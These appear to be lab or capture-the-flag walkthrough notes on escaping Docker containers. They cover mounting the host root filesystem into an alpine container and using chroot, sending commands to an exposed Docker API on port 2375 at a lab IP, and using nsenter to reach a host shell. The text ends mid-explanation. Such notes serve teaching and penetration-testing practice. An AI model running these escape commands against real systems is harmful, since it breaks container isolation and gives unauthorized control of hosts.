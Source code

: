	- We will use docker run to start the new container and mount the host's file system (/) to (/mnt) in the new container: docker run -v /:/mnt 

	- We will tell the container to run interactively (so that we can execute commands in the new container): -it

	- Now, we will use the already provided alpine image: alpine

	- We will use chroot to change the root directory of the container to be _/mnt_ (where we are mounting the files from the host operating system): chroot /mnt

	- Now, we will tell the container to run sh to gain a shell and execute commands in the container: sh

You may need to "**Ctrl + C**" to cancel the exploit once or twice for this vulnerability to work, but, as you can see below, we have successfully mounted the host operating system's filesystem into the new alpine container.

---

### Remote code execution
- The Docker Engine will listen on a port (default 2375) when configured to be run remotely.

```sh
# If Docker daemon is running on port 2375, then docker commands can be sent via http calls  

# Check docker version
curl http://10.10.177.179:2375/version

# Running docker commands on remote server
docker -H tcp://10.10.177.179:2375 ps

  ```

————————————————————————

### Abusing Namespace
```

# Find if we are in container

  

# Usually containers have less number of processes

ps aux

  

  

# Abusing the case where containers share the same namespace as host (the container can communicate with the processes on the host)

  

  

Use the following exploit: 

  

nsenter --target 1 --mount --uts --ipc --net /bin/bash

  

which does the following:
```